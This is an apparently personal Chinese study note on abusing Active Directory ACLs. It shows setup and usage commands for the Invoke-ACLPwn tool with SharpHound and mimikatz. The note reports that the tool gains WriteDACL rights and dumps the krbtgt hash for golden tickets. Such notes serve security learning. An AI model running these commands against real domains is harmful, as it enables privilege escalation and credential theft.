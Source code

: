 这个权限需要在账户的权限中添加，是让账户可以将自己添加到其他组中的特权

（文章后续会继续更新，未完待续）

## 工具及使用

### Invoke-ACLPwn

运行时需要.NET 3.5环境，Windows Server 2012安装遇到报错，最后的解决方法(需要在网上下载SxS的安装包https://pan.baidu.com/share/init?surl=kDgdYerM0lVB32Q_IEqLUw提取码：gwzk)：

```powershell
dism.exe /online /enable-feature /all /featurename:NetFX3 /Source:F:\Sources\SxS\
```

GitHub地址：https://github.com/fox-it/Invoke-ACLPwn

背景信息在发布者博客上：https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/

环境需要：

​	.NET 3.5 + sharphound.exe + mimikatz.exe

用法示例：

```
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -LogToFile
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -NoSecCleanup
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```

使用第一条标识了-NoDCSync的命令：

![1572402671046](ACL学习记录.assets/1572402671046.png)

提示Got WriteDACL permissions.如果加上mimikatz.exe一起使用,可以看到直接获取了krbtgt的HASH值，也就是说已经可以直接生成黄金票据了：

